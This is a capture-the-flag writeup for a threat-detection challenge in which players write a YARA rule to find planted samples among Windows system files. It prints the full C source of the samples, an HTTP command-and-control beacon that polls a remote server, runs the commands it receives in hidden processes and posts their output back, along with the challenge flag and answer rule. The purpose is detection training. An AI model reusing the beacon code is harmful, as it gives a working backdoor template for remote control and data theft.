



# YARA Verificator Writeup



## Background
Digital forensics in CTFs is not just disk analyzing. There are also memory forensics, network forensics, steganography (though not practically used anymore), file analysis, etc. I want to introduce a different type of digital forensics in this CTF. This is threat detection forensics challenge. I intentionally made this challenge medium and expected more solves. There were 2 solves at the end. This writeup will look at the solution for the YARA Verificator challenge. 



The distributed source code for this challenge is as follows.  

> Fun Facts: The executables generated from this code cannot do anything to your computer because it will immediately be flagged by Windows Security (WS). WS uses antivirus software (AV software) like Microsoft Defender Antivirus to scan files and look for malware signatures and suspicious behaviour.  

```C
#include <windows.h>
#include <wininet.h>
#pragma comment(lib, "wininet.lib")

#define C2_SERVER "cartoonnetwork.com:1888"
#define BEACON_INTERVAL 14005
#define XOR_KEY 0x83

void xor_encrypt_decrypt(char* data, size_t length) {
	for (size_t i = 0; i < length; i++) {
		data[i] ^= XOR_KEY;
	}
}

void SendResultToServer(const char* result) {
	size_t result_len = lstrlenA(result); 
	char* encrypted = (char*)malloc(result_len + 1);
	lstrcpyA(encrypted, result);

	xor_encrypt_decrypt(encrypted, result_len);

	HINTERNET hInternet = InternetOpen("Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);

	if (!hInternet) {
		free(encrypted);
		return;
	}
	HINTERNET hConnect = InternetConnect(hInternet, "cartoonnetwork.com", 1888, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0);

	if (!hConnect) {
		InternetCloseHandle(hInternet);
		free(encrypted);
		return;
	}

	HINTERNET hRequest = HttpOpenRequest(hConnect, "POST", "/result", NULL, NULL, NULL, INTERNET_FLAG_RELOAD, 0);

	if (hRequest) {
		HttpSendRequest(hRequest, NULL, 0, (LPVOID)encrypted, result_len);
		InternetCloseHandle(hRequest);
	}

	InternetCloseHandle(hConnect);
	InternetCloseHandle(hInternet);
	free(encrypted);
}

void ExecuteCommand(char* cmd) {
	SECURITY_ATTRIBUTES sa;
	sa.nLength = sizeof(SECURITY_ATTRIBUTES);
	sa.bInheritHandle = TRUE; 
	sa.lpSecurityDescriptor = NULL;

	HANDLE hStdoutRead, hStdoutWrite;

	if (!CreatePipe(&hStdoutRead, &hStdoutWrite, &sa, 0)) {
		/*printf("CreatePipe failed");*/
		return;
	}

	SetHandleInformation(hStdoutRead, HANDLE_FLAG_INHERIT, 0); 
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(STARTUPINFO));
	si.cb = sizeof(STARTUPINFO);
	si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
	si.hStdOutput = hStdoutWrite;
	si.wShowWindow = SW_HIDE; 
	char cmdLine[4096];
	lstrcpyA(cmdLine, "notepad.exe /c ");
	lstrcatA(cmdLine, cmd);

	if (!CreateProcess(NULL, cmdLine, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi)) {
		CloseHandle(hStdoutRead);
		CloseHandle(hStdoutWrite);
		return;
	}

	CloseHandle(hStdoutWrite);
	char buffer[4096];
	char output[65536] = { 0 };
	DWORD bytesRead;
	size_t totalLength = 0;

	while (ReadFile(hStdoutRead, buffer, sizeof(buffer) - 1, &bytesRead, NULL) && bytesRead > 0) {
		buffer[bytesRead] = '\0';
		if (totalLength + bytesRead < sizeof(output) - 1) {
			totalLength += bytesRead;*/
			for (DWORD i = 0; i < bytesRead && totalLength < sizeof(output) - 1; i++) {
				output[totalLength++] = buffer[i];
			}
			output[totalLength] = '\0';
		}
	}

	WaitForSingleObject(pi.hProcess, INFINITE);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	CloseHandle(hStdoutRead);
	SendResultToServer(output);
}

void Beacon() {
	while (1) {
		HINTERNET hInternet = InternetOpen("Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);

		if (hInternet) {
			char url[256];
			/*snprintf(url, sizeof(url), "%s/poll", C2_SERVER);*/
			lstrcpy(url, C2_SERVER);
			lstrcat(url, "/poll");
			HINTERNET hConnect = InternetOpenUrl(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
			if (hConnect) {
				char buffer[4096];
				DWORD bytesRead;


				if (InternetReadFile(hConnect, buffer, sizeof(buffer), &bytesRead) && bytesRead > 0) {
					buffer[bytesRead] = '\0';

					xor_encrypt_decrypt(buffer, bytesRead);
					ExecuteCommand(buffer);
				}

				InternetCloseHandle(hConnect);
			}
			InternetCloseHandle(hInternet);
		}
		Sleep(BEACON_INTERVAL);
	}
}

int main(void) {
	Beacon();
	return 0;
}
```
## Challenge Summary
In this challenge, we are provided with a set of over 400 executables and dll files. We are asked to write a YARA rule that could detect the malicious files that attacker had implanted. 

There are two sets of data originally that got mixed into one. One set includes all benign .exe (executable) and .dll (Dynamic Link Library) files from `C:\Windows\SYSTEM32`. The other set contains all the "malicious-wannabe" executable files that the source code above generated with a bit of variations for each one just to not duplicate them. 

## solution
```shell
rule http_c2_agent_sample
{
    strings:
        $user_agent = "Mozilla/5.0"
		$create_process = "CreateProcess"
        $wininet1 = "InternetOpen"
    condition:
        all of them
}
```
## YARA
YARA (Yet Another Recursive Acronym) must be one of the most flexible tools in Threat Detection. It has a really simple structure that could be picked up right away, and is highly customizable. 

For example: 

```
rule detection{
	strings:
		$pattern1="hello"
		$pattern2="world"
	conditions:
		any of them
}
```
Here are more examples of [YARA rules used to detect some well-known malware](https://github.com/reversinglabs/reversinglabs-yara-rules/tree/develop/yara).


## winapi
winapi is the API for Windows desktop and server applications. It is the set of functions and data strutures that your Windows applications are written with. 

### wininet?
WinINet API is one of the APIs under the Networking and Internet categories in the WinAPI.

Let's look at the instructions of the challenge again: `the malware disguised itself as a legitimate browser by mimicking common web traffic patterns`. This should indicate that there is some traffic happening. One of the hints linked to WinINet documentation. 

Basically, `InternetOpen` establishes the Internet connection to the client application.


[CreateProcess()](https://medium.com/@theCTIGuy/windows-api-highlight-createprocess-ec1ec0915b9c)

CreateProcess() is one of the most used WinAPI functions. It ... creates a process. Many processes running in the background  

[InternetOpen()](https://www.aldeid.com/wiki/InternetOpen) 
One of the parameters to `InternetOpen` is the `User-Agent` which is a good signature to it. 

Basically, how to write the detection rules for the correct samples are just to stick to what we are given and have observed so far, i.e. the descriptions. 

To detect this, I wrote a rule that check for the function name "InternetOpen". 

## result


The flag is `MINUTEMAN{w3_ju57_l0v3_y37_4n07h3r_r1d1cul0u5_rul3_0300393325}`

Okok I admit this is more a blue team CTF challenge. But I hope you learned something from it:) 

## Lessons Learned

One team has the solve for this by using the `strings` command. 
This is because I compiled the files in Debug mode instead of Release mode. In this mode, Visual Studio embeds the file paths. 

In Visual Studio, when 

In this case, when do the `strings` command on one of the "malicious" file `variant-0.exe`, you can see the line `C:\Users\thkpd\source\repos\http-c2-agent\x64\Debug\http-c2-agent.pdb` which is the 
